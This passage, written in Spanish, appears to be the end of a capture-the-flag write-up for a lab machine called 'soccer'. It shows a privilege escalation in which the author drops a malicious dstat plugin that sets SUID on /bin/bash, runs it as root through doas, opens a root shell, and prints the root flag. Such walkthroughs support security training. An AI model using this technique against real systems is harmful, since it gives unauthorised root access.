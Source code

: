 Si miramos el [manual](https://linux.die.net/man/1/dstat), podemos ver los directorios donde se pueden alojar los *plugins*. Estos son:
* ~/.dstat/
* (path of binary)/plugins/
* /usr/share/dstat/
* ***/usr/local/share/dstat/***

En este último directorio recordemos que tenemos todos los permisos, ya que el grupo del directorio era *player*. Solo nos falta saber cual es la estructura de un plugin de *dstat*. Si listamos el contenido de */usr/share/dstat/* podemos ver que el formato es ***dstat_\<nombre_plugin\>.py***:

```bash
player@soccer:/tmp$ cat /usr/share/dstat/              
dstat_fan.py                  dstat_mongodb_opcount.py      dstat_nfsd4_ops.py            dstat_snooze.py               dstat_top_oom.py
dstat.py                      dstat_freespace.py
```
### Explotación de doas y dstat

En este punto, vamos a construirnos un *script* en *python* ***dstat_pwned.py*** que al ser ejecutado por *root* dé permisos *suid* a la *bash*:

```bash
player@soccer:/tmp$ cat /usr/local/share/dstat/dstat_pwned.py 
import os
os.system('chmod u+s /bin/bash')
```

Ejecutaremos ***dstat*** con el comando:

```bash
player@soccer:/tmp$ doas /usr/bin/dstat --pwned
```

y ya podremos *spawnearnos* una ***shell*** como el usuario ***root***:

```bash
player@soccer:/tmp$ bash -p 
bash-5.0## whoami
root
```
### root.txt

En el ***homedir*** de *root* encontraremos la segunda ***flag***:

```bash
bash-5.0## cat /root/root.txt 
0bbe8baea96c4f28867887bfdda9b16b
```














